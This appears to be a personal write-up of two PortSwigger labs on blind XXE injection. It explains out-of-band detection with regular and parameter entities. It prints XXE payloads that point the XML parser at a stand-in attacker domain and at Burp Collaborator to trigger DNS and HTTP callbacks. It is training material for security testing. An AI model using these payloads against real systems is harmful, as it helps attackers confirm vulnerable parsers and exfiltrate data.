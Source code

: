 ```yaml
---
tags: ["blind", "XXE"]
image: https://cdn.acunetix.com/wp-content/uploads/2017/07/11110651/XXE_600x315.png
---
```


## What is blind XXE?

Blind XXE vulnerabilities arise where the application is vulnerable to XXE injection but does not return the values of any defined external entities within its responses. This means that direct retrieval of server-side files is not possible, and so blind XXE is generally harder to exploit than regular XXE vulnerabilities.

There are two broad ways in which you can find and exploit blind XXE vulnerabilities:

- You can trigger out-of-band network interactions, sometimes exfiltrating sensitive data within the interaction data.
- You can trigger XML parsing errors in such a way that the error messages contain sensitive data.

## Detecting blind XXE using out-of-band ([OAST](https://portswigger.net/burp/application-security-testing/oast)) techniques

You can often detect blind XXE using the same technique as for [XXE SSRF attacks](https://portswigger.net/web-security/xxe#exploiting-xxe-to-perform-ssrf-attacks) but triggering the out-of-band network interaction to a system that you control. For example, you would define an external entity as follows:

`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>`

You would then make use of the defined entity in a data value within the XML.

This XXE attack causes the server to make a back-end HTTP request to the specified URL. The attacker can monitor for the resulting DNS lookup and HTTP request, and thereby detect that the XXE attack was successful.

## Challenge

> This lab has a "Check stock" feature that parses XML input but does not display the result.
> You can detect the [blind XXE](https://portswigger.net/web-security/xxe/blind) vulnerability by triggering out-of-band interactions with an external domain.
> To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

--> For this lab we will use burp collaborator which you can use by going `burp -> burp collaborator client`

After that i intercepted check stock request and added this payload:

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "<burp-collaborator-url>"> ]>
```

--> And change the value of `productId` and `stockId` to `&xxe;`

Final payload will look like this:

![](Attachments/Pastedimage20220302121618.png)

--> And then goto collaborator client and click `poll now` you will see a DNS lookup on your domain.

![](Attachments/Pastedimage20220302120527.png)

And we solved the lab!

## XML parameter entity

Sometimes, XXE attacks using regular entities are blocked, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation, you might be able to use XML parameter entities instead. XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD. For present purposes, you only need to know two things. First, the declaration of an XML parameter entity includes the percent character before the entity name:

`<!ENTITY % myparameterentity "my parameter entity value" >`

And second, parameter entities are referenced using the percent character instead of the usual ampersand:

`%myparameterentity;`

This means that you can test for blind XXE using out-of-band detection via XML parameter entities as follows:

`<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>`

This XXE payload declares an XML parameter entity called `xxe` and then uses the entity within the DTD. This will cause a DNS lookup and HTTP request to the attacker's domain, verifying that the attack was successful

## Challenge

> This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.
> To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

--> This lab is similar to previous one but here we have to declare one XML parameter entity and then call it within the DTD So i made this payload and intercepted `check stock` request:

```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "<BURP-URL>"> %xxe; ]>
```

Final request will look like this:

![](Attachments/Pastedimage20220302123749.png)

And after clicking `poll now` i got one DNS lookup and we solved the lab!

![](Attachments/Pastedimage20220302123826.png)
